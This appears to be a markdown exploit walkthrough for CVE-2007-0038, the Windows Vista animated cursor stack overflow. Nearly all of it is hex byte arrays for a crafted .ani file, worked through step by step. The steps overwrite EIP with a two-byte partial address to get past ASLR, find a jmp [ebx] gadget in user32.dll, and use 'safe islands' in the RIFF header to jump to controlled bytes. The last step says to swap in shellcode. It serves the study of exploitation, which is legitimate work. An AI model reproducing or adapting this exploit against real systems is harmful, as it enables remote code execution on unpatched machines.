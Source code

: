 # ASLR
# Two bytes injection in Vista
# CVE-2007-0038 Animated Cursor stack overflow
# remark: CC INT 3 can be break point

## 1. POC (.ani)
```
"\x52\x49\x46\x46\x13\x03\x00\x00\x41\x43\x4f\x4e\x61\x6e\x69\x68"
"\x24\x00\x00\x00\x24\x00\x00\x00\x02\x00\x00\x00\x09\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x01\x00\x00\x00\x61\x6e\x69\x68\x58\x00\x00\x00"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x42\x42\x42\x42\x43\x43\x43\x43";
```

## 2. Review registers
* ebx address pointed to the header of the ani file
* ebx -> follow in dump -> follow DWORD in Dump -> RIFF
* jmp [ebx] is needed to go back to our controlled data

## 3. 2 bytes injection
```
"\x52\x49\x46\x46\x13\x03\x00\x00\x41\x43\x4f\x4e\x61\x6e\x69\x68" <--- headers
"\x24\x00\x00\x00\x24\x00\x00\x00\x02\x00\x00\x00\x09\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x01\x00\x00\x00\x61\x6e\x69\x68\x58\x00\x00\x00" <--- \x58 is the length of following data
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x00\x00\x00\x00" <--- data
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" <--- data
"\x42\x42\x42\x42\x43\x43\x43\x43";                                <--- data
```

### Change the length to be *\x56*
```
"\x52\x49\x46\x46\x13\x03\x00\x00\x41\x43\x4f\x4e\x61\x6e\x69\x68" <--- headers
"\x24\x00\x00\x00\x24\x00\x00\x00\x02\x00\x00\x00\x09\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x01\x00\x00\x00\x61\x6e\x69\x68\x56\x00\x00\x00" <--- \x56 is new the length
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x00\x00\x00\x00" <--- data
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" <--- data
"\x42\x42\x42\x42\x43\x43";                                        <--- delete last 2 bytes
```

### EIP will be changed to in user32.dll (e.g. \x77\x24\x43\x43)

### Find jmp [ebx]
* CPU -> Search for -> Find all commands -> jmp [ebx]
OR
* CPU -> Search for -> Command -> jmp [ebx] -> ctrl+l next instruction
* Find the jmp DWORD PTR DS:[ebx]

## 4. Find the safe islands in the ani file
```
"\x52\x49\x46\x46*\x13\x03*\x00\x00\x41\x43\x4f\x4e\x61\x6e\x69\x68" <--- headers RIFF is safe to execute, \x13\x03 is the safe island
"\x24\x00\x00\x00\x24\x00\x00\x00\x02\x00\x00\x00*\x09\x00*\x00\x00" <--- \x09\x00 is safe island
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x01\x00\x00\x00\x61\x6e\x69\x68\x56\x00\x00\x00"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x00\x00\x00\x00" <--- data (safe)
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" <--- data (safe)
"\x42\x42\x42\x42\xab\x7b";                                        <--- 0x77247bab in user32
```

## 5. jmp to controlled shellcode
```
"\x52\x49\x46\x46\xeb\x17\x00\x00\x41\x43\x4f\x4e\x61\x6e\x69\x68" <--- jmp to pervious \x09\x00 position [pervious \x13\x03]
"\x24\x00\x00\x00\x24\x00\x00\x00\x02\x00\x00\x00\xe9\x75\x00\x00" <--- jmp to \xcc\xcc button of ani file [pervious \x09\x00]
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x01\x00\x00\x00\x61\x6e\x69\x68\x56\x00\x00\x00"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x00\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41" <--- data (safe)
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x00\x00\x00\x00" <--- data (safe)
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" <--- data (safe)
"\x42\x42\x42\x42\xab\x7b\xcc\xcc";                                <--- \xcc\xcc
```

## 6. shellcode replace \xcc\xcc + Gameover
